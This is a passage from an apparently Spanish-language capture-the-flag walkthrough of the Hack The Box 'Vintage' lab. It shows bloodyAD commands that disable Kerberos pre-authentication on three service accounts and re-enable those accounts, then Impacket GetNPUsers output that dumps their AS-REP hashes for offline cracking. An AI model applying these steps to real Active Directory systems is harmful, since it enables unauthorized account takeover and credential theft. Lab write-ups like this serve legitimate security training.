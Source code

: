 
Siguiente deshabilitar la autenticación previa

bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl

bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH  
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl

bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH 
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl


activar cuentas

bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_ARK's userAccountControl

bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE   
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_LDAP's userAccountControl

bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE 
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl

Verifique los usuarios del dominio nuevamente

python3 GetNPUsers.py -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/ 
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

/home/shat/Desktop/HTB/Vintage/venv/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:38d2826b3dd0c580e04922c9f3229670$0ae1a3799659e364ff338acabae26a15bea0c015ed1ca5c075810a568394787bb887507135a51352b4af63fbf7498842da8259390e74c271b89acb64b327eeb368c6aadaabf17c9bad92ae3bcc50aca18cd029d1e53a088487fb71f8d2f6818368aecfa8f3055795eea082b36fa123bae6ecdf1998ce01e53360f310e14b633ad7fbbb094255d8b938864941b90e33e1dbc55b9c5a9f8765d0d0272a1f91863d40e307ad501aeda77601090bd37c2446fa30392f40356f4a800a36c21384cfcfb8da1d38b30a479afbddb3613d23871b945809223840c05083db4cf855677fcdc3764f2eb1fa10bee4e8
$krb5asrep$23$svc_ldap@VINTAGE.HTB:7cfc5a311c046dac98ea02eb34e43ca5$8ad3a28feb532ee73fa8ea0be81fc36151f177c26acb9e8292428490bdd946f8e74f37e02a60815d8a8b0751579c136c21dc173a34fb9896dde4f78d14392717c0b5a64b2f67523f5681d44a441281195e5a8a41b569c76cb3ed3147aab71616cee6ef6973b2a9ac0bf5c982aa8cdba0ef6d72519f81ae3a24398dcbdbdd69a5d79452315f8618e7398573e9c4cb0c21141839680917b5b60390f71e301e0961f3412d9b7da276a105f1b41c22210da233ba41e2771888f0f56b56081028db8f50a66bd6475d0918bd759048163aea680e46fd0b6e32790a27bf5429ef58330b22c097ad4ab1f1f5ad4d
$krb5asrep$23$svc_ark@VINTAGE.HTB:b960f8847b8c5ec9598b9670dee6c36a$c9c1425f3f40177358b567697cac08ed5b379eb1d867248404b8794ef25ef4dbb960c9cd9098e0819335fa3adfae3cfa393cfc404354a0d106f6815baa5d2ae86bf47a6fa9cde801c5bca64515028a6b07a64ff012842ed590dbfc53a5c6e977f5ebd4faed72e5fdbcb61b103ef12673c7b8d93a797c82dd8db1527140f48053b9eff7132228b36c21035f14be0e3ff77ecccbd9375b9d9c5020d6aa677e673b1816915bcc6a6191142233e7a186d8fae21d5d46ac1fcfc08fa8d513de16a5927fdf6f71c13cc3ee7382f30d478e663e4ad88bf16682c45adc648f80988e459589c3a2a7109da29ff1c4